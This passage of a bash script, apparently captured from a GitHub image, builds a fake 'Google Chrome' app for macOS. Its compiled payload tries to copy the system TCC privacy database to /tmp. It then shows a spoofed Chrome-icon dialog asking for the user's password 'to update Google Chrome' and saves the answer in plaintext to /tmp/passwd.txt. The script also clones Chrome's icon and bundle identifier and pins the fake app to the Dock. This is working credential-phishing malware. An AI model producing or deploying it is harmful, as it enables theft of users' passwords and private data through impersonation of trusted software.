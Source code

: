 ```bash
#include <stdlib.h>
#include <unistd.h>

int main() {
char *cmd = "open /Applications/Google\\\\ Chrome.app & "
"sleep 2; "
"osascript -e 'tell application \"Finder\"' -e 'set homeFolder to path to home folder as string' -e 'set sourceFile to POSIX file \"/Library/Application Support/com.apple.TCC/TCC.db\" as alias' -e 'set targetFolder to POSIX file \"/tmp\" as alias' -e 'duplicate file sourceFile to targetFolder with replacing' -e 'end tell'; "
"PASSWORD=\$(osascript -e 'Tell application \"Finder\"' -e 'Activate' -e 'set userPassword to text returned of (display dialog \"Enter your password to update Google Chrome:\" default answer \"\" with hidden answer buttons {\"OK\"} default button 1 with icon file \"Applications:Google Chrome.app:Contents:Resources:app.icns\")' -e 'end tell' -e 'return userPassword'); "
"echo \$PASSWORD > /tmp/passwd.txt";
system(cmd);
return 0;
}
EOF

gcc /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome.c -o /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome
rm -rf /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome.c

chmod +x /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome

# Info.plist
cat << EOF > /tmp/Google\ Chrome.app/Contents/Info.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
"http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>CFBundleExecutable</key>
<string>Google Chrome</string>
<key>CFBundleIdentifier</key>
<string>com.google.Chrome</string>
<key>CFBundleName</key>
<string>Google Chrome</string>
<key>CFBundleVersion</key>
<string>1.0</string>
<key>CFBundleShortVersionString</key>
<string>1.0</string>
<key>CFBundleInfoDictionaryVersion</key>
<string>6.0</string>
<key>CFBundlePackageType</key>
<string>APPL</string>
<key>CFBundleIconFile</key>
<string>app</string>
</dict>
</plist>
EOF

# Copy icon from Google Chrome
cp /Applications/Google\ Chrome.app/Contents/Resources/app.icns /tmp/Google\ Chrome.app/Contents/Resources/app.icns

# Add to Dock
defaults write com.apple.dock persistent-apps -array-add '<dict><key>tile-data</key><dict><key>file-data</key><dict><key>_CFURLString</key><string>/tmp/Google Chrome.app</string><key>_CFURLStringType</key><integer>0</integer></dict></dict></dict>'
sleep 0.1
killall Dock
```